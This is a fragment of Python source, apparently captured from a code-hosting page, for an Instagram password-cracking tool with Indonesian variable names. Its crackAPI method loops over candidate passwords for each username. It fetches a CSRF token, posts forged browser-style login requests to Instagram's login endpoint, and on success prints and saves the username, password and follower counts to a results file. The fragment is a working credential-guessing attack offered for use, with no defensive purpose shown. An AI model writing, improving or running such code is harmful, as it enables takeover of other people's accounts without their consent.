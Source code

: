 	def APIinfo(self,user):
		try:
			x=s.get("https://www.instagram.com/%s/?__a=1"%(user),headers={"user-agent":USN})
			x_jason=x.json()["graphql"]["user"]
			nama=x_jason["full_name"]
			pengikut=x_jason["edge_followed_by"]["count"]
			mengikut=x_jason["edge_follow"]["count"]
			postingan=x_jason["edge_owner_to_timeline_media"]["count"]
		except:
			pass

		return nama,pengikut,mengikut,postingan

	def crackAPI(self,user,pas,uaAPI):
		global loop,success,checkpoint
		sys.stdout.write(f"\r{CY}┣[•_•] [{K}{loop}/{len(internal)}{C}] {H}[ OK : {len(success)}]{C}  {K}[ CP : {len(checkpoint)}]{C} "),sys.stdout.flush()
		try:
			for pw in pas:
				token=s.get('https://www.instagram.com/accounts/login/')
				headers = {
					'Host': 'www.instagram.com',
					'User-Agent': uaAPI,
					'Accept': '/',
					'Accept-Language': 'id,en-US;q=0.7,en;q=0.3',
					'Accept-Encoding': 'gzip, deflate, br',
					'X-CSRFToken': token.cookies['csrftoken'],
					'X-Instagram-AJAX': 'c2d8f4380025',
					'X-IG-App-ID': '936619743392459',
					'X-ASBD-ID': '437806',
					'X-IG-WWW-Claim': '0',
					'Content-Type': 'application/x-www-form-urlencoded',
					'X-Requested-With': 'XMLHttpRequest',
					'Content-Length': '347',
					'Origin': 'https://www.instagram.com',
					'Connection': 'keep-alive',
					'Referer': 'https://www.instagram.com/accounts/login/'
				}

				param={
                                        "username": user,
					"enc_password": "#PWD_INSTAGRAM_BROWSER:0:{}:{}".format(random.randint(1000000000, 99999999999),pw),
					"optIntoOneTap": False,
					"queryParams": {},
					"stopDeletionNonce": "",
					"trustedDeviceRecords": {}}

				x=s.post("https://www.instagram.com/accounts/login/ajax/",headers=headers,data=param)
				x_jason=json.loads(x.text)
				if "userId" in str(x_jason):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print(f"""\r
{H}┣[>]STATUS : OK
┣Nama     : {nama}
┣Username : {user}
┣Password : {pw}
┣Pengikut : {pengikut}
┣Mengikuti: {mengikut}
┣Postingan: {postingan}{C}
					""")
					open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					success.append(user)
					break
